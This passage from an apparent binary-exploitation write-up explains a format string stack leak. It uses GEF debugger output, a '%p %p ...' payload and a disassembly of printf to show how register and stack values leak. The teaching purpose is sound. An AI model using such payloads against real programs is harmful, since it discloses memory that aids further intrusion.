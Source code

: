 Look at the image above (taken before `printf` called), notice the following registers and values match (I've positioned them in the same order as the output `0x4008f8 0x67 0xf 0x7fffffffe590 0x7025207025207025`):

```
$rsi   : 0x4008f8
$rdx   : 0x67
$rcx   : 0xf
$r8    : 0x7fffffffe590
$r9    : 0x7025207025207025 ("%p %p %p"?)
``` 

Now look at the stack, its contains the string that `printf` will, well, print.  The `70` `25` `20` repeating patter is ASCII for `p` `%` ` ` (space).  Continue to follow along and you'll find `0x400500` and  `0x4006c2` also in the stack, and the values after that are further down the stack.  The more `%p` you send the more you can leak from the stack.


```
0x00007fffffffe590│+0x0000: "%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p" ← $rsp, $rdi, $r8
0x00007fffffffe598│+0x0008: "%p %p %p %p %p %p %p %p %p %p %p %p %p"
0x00007fffffffe5a0│+0x0010: "p %p %p %p %p %p %p %p %p %p %p"
0x00007fffffffe5a8│+0x0018: "%p %p %p %p %p %p %p %p"
0x00007fffffffe5b0│+0x0020: "%p %p %p %p %p"
0x00007fffffffe5b8│+0x0028: 0x0070252070252070 ("p %p %p"?)
0x00007fffffffe5c0│+0x0030: 0x0000000000400500  →  <_init+16> call 0x400580
0x00007fffffffe5c8│+0x0038: 0x00000000004006c2  →  <welcome+34> nop
```

Why this behavior is pretty easy to explain, just `disas printf`:

```
gef➤  disas printf
Dump of assembler code for function printf:
   0x00007ffff7a62800 <+0>:	sub    rsp,0xd8
   0x00007ffff7a62807 <+7>:	test   al,al
   0x00007ffff7a62809 <+9>:	mov    QWORD PTR [rsp+0x28],rsi
   0x00007ffff7a6280e <+14>:	mov    QWORD PTR [rsp+0x30],rdx
   0x00007ffff7a62813 <+19>:	mov    QWORD PTR [rsp+0x38],rcx
   0x00007ffff7a62818 <+24>:	mov    QWORD PTR [rsp+0x40],r8
   0x00007ffff7a6281d <+29>:	mov    QWORD PTR [rsp+0x48],r9
   0x00007ffff7a62822 <+34>:	je     0x7ffff7a6285b <printf+91>
   0x00007ffff7a62824 <+36>:	movaps XMMWORD PTR [rsp+0x50],xmm0
   0x00007ffff7a62829 <+41>:	movaps XMMWORD PTR [rsp+0x60],xmm1
   0x00007ffff7a6282e <+46>:	movaps XMMWORD PTR [rsp+0x70],xmm2
   0x00007ffff7a62833 <+51>:	movaps XMMWORD PTR [rsp+0x80],xmm3
   0x00007ffff7a6283b <+59>:	movaps XMMWORD PTR [rsp+0x90],xmm4
   0x00007ffff7a62843 <+67>:	movaps XMMWORD PTR [rsp+0xa0],xmm5
   0x00007ffff7a6284b <+75>:	movaps XMMWORD PTR [rsp+0xb0],xmm6
   0x00007ffff7a62853 <+83>:	movaps XMMWORD PTR [rsp+0xc0],xmm7
   0x00007ffff7a6285b <+91>:	lea    rax,[rsp+0xe0]
   0x00007ffff7a62863 <+99>:	mov    rsi,rdi
   0x00007ffff7a62866 <+102>:	lea    rdx,[rsp+0x8]
   0x00007ffff7a6286b <+107>:	mov    QWORD PTR [rsp+0x10],rax
   0x00007ffff7a62870 <+112>:	lea    rax,[rsp+0x20]
   0x00007ffff7a62875 <+117>:	mov    DWORD PTR [rsp+0x8],0x8
   0x00007ffff7a6287d <+125>:	mov    DWORD PTR [rsp+0xc],0x30
   0x00007ffff7a62885 <+133>:	mov    QWORD PTR [rsp+0x18],rax
   0x00007ffff7a6288a <+138>:	mov    rax,QWORD PTR [rip+0x36e6bf]        # 0x7ffff7dd0f50
   0x00007ffff7a62891 <+145>:	mov    rdi,QWORD PTR [rax]
   0x00007ffff7a62894 <+148>:	call   0x7ffff7a5a170 <vfprintf>
   0x00007ffff7a62899 <+153>:	add    rsp,0xd8
   0x00007ffff7a628a0 <+160>:	ret
End of assembler dump.
```
